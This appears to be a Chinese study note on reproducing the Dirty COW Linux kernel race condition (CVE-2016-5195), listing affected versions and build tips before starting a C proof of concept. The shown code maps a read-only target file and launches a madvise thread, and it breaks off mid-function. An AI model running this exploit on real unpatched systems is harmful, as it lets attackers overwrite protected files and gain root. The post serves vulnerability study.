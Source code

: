 ```yaml
---
title: CVE-2016-5195复现记录
date: 2024-02-21 20:16:37
categories:
- 学习笔记
- kernel pwn 系列
---
```


Dirty COW脏牛漏洞是一个非常有名的Linux竞争条件漏洞，虽然早在2016年就已经被修复，但它依然影响着众多古老版本的Linux发行版，如果需要了解Linux的COW，依然非常值得学习。

漏洞：CVE-2016-5195
影响Linux版本：>2.6.22, <4.8.3 / 4.7.9 / 4.4.26
漏洞类型：竞争条件
使用Linux样本：4.8.2

注意：4.8.2版本较低，如果使用较高版本的gcc编译，可能会产生一些难以解决的问题，如一直重启等，这里使用的是Ubuntu 16.04中的gcc完成编译，在22.04的qemu中可以正常运行。

# poc
poc来源：[资料](https://arttnba3.cn/2021/04/08/CVE-0X00-CVE-2016-5195/#0x02-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>

struct stat dst_st, fk_st;
void * map;
char *fake_content;

void * madviseThread(void * argv);
void * writeThread(void * argv);

int main(int argc, char ** argv)
{
    if (argc < 3)
    {
        puts("usage: ./poc destination_file fake_file");
        return 0;
    }

    pthread_t write_thread, madvise_thread;

    int dst_fd, fk_fd;
    dst_fd = open(argv[1], O_RDONLY);
    fk_fd = open(argv[2], O_RDONLY);
    printf("fd of dst: %d\nfd of fk: %d\n", dst_fd, fk_fd);

    fstat(dst_fd, &dst_st); // get destination file length
    fstat(fk_fd, &fk_st); // get fake file length
    map = mmap(NULL, dst_st.st_size, PROT_READ, MAP_PRIVATE, dst_fd, 0);

    fake_content = malloc(fk_st.st_size);
    read(fk_fd, fake_content, fk_st.st_size);

    pthread_create(&madvise_thread, NULL, madviseThread, NULL);
```